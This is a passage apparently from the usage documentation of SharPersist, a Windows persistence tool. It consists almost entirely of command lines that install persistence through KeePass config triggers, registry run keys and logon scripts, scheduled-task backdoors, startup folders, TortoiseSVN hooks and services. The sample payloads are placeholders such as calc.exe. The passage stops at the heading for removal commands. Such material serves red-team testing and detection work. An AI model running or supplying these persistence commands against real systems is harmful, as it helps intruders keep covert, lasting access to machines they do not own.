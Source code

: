 # Examples
## Adding Persistence Triggers (Add)

**KeePass**

`SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m add `


**Registry**

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add`

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env`

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add`



**Scheduled Task Backdoor**

`SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add`


**Startup Folder**

`SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add`


**Tortoise SVN**

`SharPersist -t tortoisesvn -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -m add`


**Windows Service**

`SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add`


**Scheduled Task**

`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add`

`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly`

`SharPersist.exe -t schtask -c "UserControlTestContainer.exe" -w "C:\Users\User\AppData\Local\Apps\2.0\7L6MQ7GB.RL5\DD8W7MRN.455\ssprv2.app_0000000000000000_0001.0000_6a46e5a08e763543" -n "SSPRv2" -m add -o hourly`


## Removing Persistence Triggers (Remove)


**KeePass**
